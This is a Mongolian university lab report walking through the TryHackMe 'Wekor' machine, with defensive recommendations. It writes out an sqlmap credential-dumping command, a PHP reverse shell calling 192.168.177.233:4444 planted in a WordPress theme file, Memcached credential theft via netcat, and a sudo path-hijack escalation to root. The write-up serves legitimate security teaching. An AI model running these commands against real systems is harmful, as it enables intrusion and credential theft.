<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал /F.NSA342/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  Wekor (MEDIUM)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Б.Төгөлдөр Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – WEKOR

## УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **Wekor** виртуал машины аюулгүй байдлын түвшинг шалгав. Сагсны параметрийн SQL injection-ээр хэрэглэгчийн мэдээлэл олж, WordPress Theme Editor-оор `www-data` shell авсан. Локал Memcached-ээс ил гарсан credential-аар `Orka` хэрэглэгч рүү шилжиж, `sudo` эрхийн алдаагаар root эрх авсан.

## ҮЙЛЧИЛГЭЭНИЙ ШАЛГАЛТ, НУУГДСАН ВЕБ ЗАМУУД

```bash
nmap -Pn -sC -sV -p 22,80 10.48.175.36
curl -I http://site.wekor.thm/wp-login.php
curl -s http://wekor.thm/comingreallysoon/
```

**Зорилго:** нээлттэй сүлжээний үйлчилгээг тогтоох, вебийн хандалтын чиглүүлэг болон `robots.txt`-ийн зөвлөмжөөр нэмэлт байршлыг илрүүлэх. `-Pn` host discovery-г алгасна, `-sC` стандарт скрипт, `-sV` хувилбар, `-p` заасан портуудыг шалгана; `curl -I` HTTP header хүснэ. **Үр дүн:** `22/tcp` OpenSSH 7.2p2, `80/tcp` Apache 2.4.18; `robots.txt` дээр `/comingreallysoon`, `/it-next` зэрэг замыг илрүүлэх мөрүүд харагдсан. Эхэнд `site.wekor.thm/wp-login.php` хаяг 404 буцаасан; дараагийн WordPress сайт нь `/wordpress/` зам дээр байсныг бусад нотолгоо харуулдаг.





## IT_CART.PHP ПАРАМЕТРИЙН SQL INJECTION

**Эмзэг байдал:** `coupon_code` POST параметрийг сервер талд SQL statement-д аюулгүй холбож чадаагүйгээс SQL injection үүссэн. Screenshot дээр SQLMap `coupon_code (POST)` injection point-ийг **error-based** гэж илрүүлсэн, цаашлаад `wordpress.wp_users` хүснэгтээс `user_login`, `user_pass` талбарын өгөгдөл гаргасан байна.

```bash
sqlmap -u 'http://wekor.thm/it-next/it_cart.php' --data='coupon_code=12345&apply_coupon=Apply+Coupon' -p coupon_code --dbms=mysql --technique=E --level=1 --risk=1 --threads=5 -D wordpress -T wp_users -C user_login,user_pass --dump --batch
```

**Яагаад:** олдсон худалдааны сагсны coupon талбарт injection байгаа эсэх болон WordPress credential-д хүрэх эрсдэлийг батлах. `--data` POST payload, `-p` шинжлэх параметр, `--dbms` DBMS сонголт, `--technique=E` error-based техник, `-D/-T/-C` database/table/columns, `--dump` мөрүүдийг гаргана. **Үр дүн:** 4 хэрэглэгчийн login болон password hash хүснэгтээс гарсныг зураг нотолно. Hash-ийг тайлж нууц үг олсон яг аль алхам нь энэ багц зурагт тусдаа харагдахгүй тул түүнийг таамаглаж бичээгүй.







## WORDPRESS THEME EDITOR-ААР КОД АЖИЛЛУУЛАХ

**Нотолгоо:** `site.wekor.thm/wordpress/wp-admin/theme-editor.php` дээр Twenty Twenty-One theme-ийн `404.php`-д reverse shell команд оруулж, **File edited successfully** гэсэн мэдээлэл гарсан. Энэ нь WordPress засварлагчийн эрх эзэмшсэн этгээд сервер дээр PHP код ажиллуулах боломжтойг харуулна. Энд сонгосон WordPress хэрэглэгчийн админ нэвтрэлтийн өмнөх алхам тусдаа screenshot-д бүрэн харагдахгүй.

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.177.233/4444 0>&1'");
?>
```

**Сул тал:** редактороор template файлыг өөрчлөх эрх, web-server-ийн кодын гүйцэтгэл хоёр нийлсэн. **Хамгаалалт:** `DISALLOW_FILE_EDIT`, least privilege admin access, WAF/IDS мониторинг, код өөрчлөлтийн аудит.



## WWW-DATA НЭВТРЭЛТ, ЛОКАЛ ҮЙЛЧИЛГЭЭНИЙ МЭДЭЭЛЭЛ

Зурагт `whoami → www-data`, `ss -lntp | grep 11211` гэж шалгасан, дараа нь `127.0.0.1:11211` дотоод Memcached үйлчилгээ рүү Netcat-ээр хандсан байна. `get username`, `get password` хүсэлтээр тухайн локал үйлчилгээнд хадгалсан `Orka` хэрэглэгчийн credential ил гарсан.

```bash
whoami
ss -lntp | grep 11211
nc 127.0.0.1 11211
# Memcached протокол: get username, get password
```

**Яагаад:** гаднаас нэвтрэх эрхгүй, гэхдээ компрометлогдсон веб процессоос хүрч болох локал үйлчилгээний credential exposure-г шалгах. **Эрсдэл:** локал cache-ийг нууцын найдвартай хадгалалт гэж үзсэн нь хэрэглэгч солих боломж бий болгосон.





## ORKA ХЭРЭГЛЭГЧ, USER FLAG

Terminal-д Python PTY үүсгэсний дараа `su - Orka` амжилттай болж, `cat ~/user.txt` тушаалаар User Flag уншсан байна. `Orka` хэрэглэгчийн home directory-г жагсаасан нотолгоо бас бий.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
su - Orka
whoami
cat ~/user.txt
```



## SUDO ЭРХИЙН АЛДАА БА ROOT SHELL

**Нотолгоо:** `sudo -l` командаар `Orka` хэрэглэгч root эрхээр `/home/Orka/Desktop/bitcoin` executable ажиллуулах боломжтой нь харагдана. Дараагийн зурагт `/usr/sbin/python` дээр executable payload байршуулж, sudo-оор `bitcoin` програмыг ажиллуулахад shell-ийн `whoami → root`, `id → uid=0(root)` гаралт гарч, `/root/root.txt` уншсан байна.

**Асуудлын үндэс:** өндөр эрхтэй executable дотор доод эрхийн хэрэглэгч нөлөөлж болох абсолют биш зам, interpreter call, эсвэл path substitution байгаа тохиолдолд sudo-ийн хязгаарлалт давж болно. Зургаас binary-ийн бүх эх код харагдахгүй тул яг дотоод function call-ыг баталгаатай гэж дүгнээгүй; харин `. /usr/sbin/python` replacement болон `bitcoin`-оор root авсан гүйцэтгэл батлагдсан.

```bash
sudo -l
ls -l /home/Orka/Desktop/
# Лабораторийн screenshot дээр sudo-оор зөвшөөрсөн binary-г ажиллуулсан:
sudo /home/Orka/Desktop/bitcoin
whoami
id
cat /root/root.txt
```





**Ажиглалт:** Скриншот дээр `root@osboxes:~#`, `uid=0(root) gid=0(root)` болон root flag-ийн агуулга харагддаг. Ингэснээр зөвхөн веб shell бус **root shell** авсныг шууд баталж байна.

## ДҮГНЭЛТ, ХАМГААЛАЛТЫН ЗӨВЛӨМЖ

Wekor лаборатори олон эмзэг байдлын гинжин холболтыг харуулна: `SQL injection → WordPress хэрэглэгчийн мэдээллийн алдагдал → theme editor code execution → www-data → Memcached credential disclosure → Orka → sudo/path misconfiguration → root`. Оролтын validation-ийг параметрчилсэн query-ээр хамгаалах, WordPress editor-ийг хаах, cache-д plaintext нууц үг хадгалахгүй байх, localhost socket ба credential management-ийг хянах, SUID/sudo зөвшөөрлийг аудитлах, root-аар ажилладаг кодод абсолют executable path болон integrity check хийх шаардлагатай.

**Машины эцсийн төлөв:** root shell болон root flag скриншотоор баталгаажсан.
